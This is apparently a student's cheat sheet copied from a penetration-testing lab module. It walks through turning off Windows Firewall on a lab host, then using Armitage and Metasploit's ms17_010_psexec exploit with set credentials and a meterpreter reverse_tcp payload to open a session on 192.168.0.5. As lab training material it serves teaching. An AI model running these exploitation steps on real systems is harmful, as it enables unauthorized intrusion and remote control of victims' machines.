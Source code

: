  cheat sheet for windows firewall things! enjoy.

 Switching Off the Windows Firewall on PLABWIN810

''

You will need to switch off the Windows Firewall to perform an attack on PLABWIN810. There are attacking methods that you can use to bypass the Windows or any other firewall running on the target. However, for the sake of this module, you will switch off the Windows Firewall and proceed with the remaining tasks.

To switch off the Windows Firewall on PLABWIN810, perform the following steps:

''

... loading ..

> On the Help protect your PC with Windows Firewall page, notice that Windows Firewall is now turned off for Domain, Private, and Public network.

1. Connect to a Windows Host and Launch the Exploit.

PsExec is an exploit that you can use to gain access to a system if you know the credentials, which can be obtained by gaining access to the hashes. Once you are in the system, you can do several tasks, such as creating new user accounts or even launching malicious programs.

In this task, you will learn to connect to a Windows Host and Launch the Exploit. To do this, perform the following steps:


''
from your kali terminal


1. enter 

> armitage (must be lowercase)

> The Connect dialog box is displayed. Keep the default values and clic  k Connect.

> The Start Metasploit? dialog box is displayed. Click Yes to run the M  etasploit RPC server.

> The connection process starts.
 
> The Armitage window is now displayed. Notice that there is an msf5 prompt in the bottom pane.

2. Next, you will connect to the victim’s system. To do this, click Hos   ts, select Nmap Scan and then select Quick Scan.

3. The Input dialog box is displayed. In the Enter scan range text box, type the following IP address:

> 192.168.0.5

> click ok

4. The Message dialog box is displayed. Click OK. The top-right pane displays a system with the 192.168.0.5 IP address.

> Notice in the bottom pane, a new tab named nmap is opened. It displays the open ports on the 192.168.0.5 system, which is PLABWIN810.

5. Next, you will prepare and launch the PsExec exploit. To do this, cl   ick Attacks and select Find Attacks.
> The Message dialog box is displayed.

> click ok

6. Click the Console tab in the bottom pane.

7. You will now use the PsExec exploit. To do this, type the following command:

> use exploit/windows/smb/ms17_010_psexec

> press Enter


8. Next, type the following command:

> set RHOST 192.168.0.5

> press Enter


9. set LPORT 4444

> Press Enter

10. Now, you need to set the payload. Type the following command:

set payload windows/x64/meterpreter/reverse_tcp

11. You will now need to provide user credentials. To do this, type the    following command:

> set SMBUser admin

> press enter

12. You need to now set the password for the user. Type the following command:

> set SMBPass Passw0rd

> press enter

13. If you do not need the operating system target to be verified, then type the following command:

> set VerifyTarget false

> press enter

14. Finally, type the following command:

> run


> press enter

15. After the run command completes, notice that a session with the vic  tim’s system is now established.

  In the top-right pane, notice that the victim’s system has a red bord  er around it. This means that the victim’s system has been exploited.



































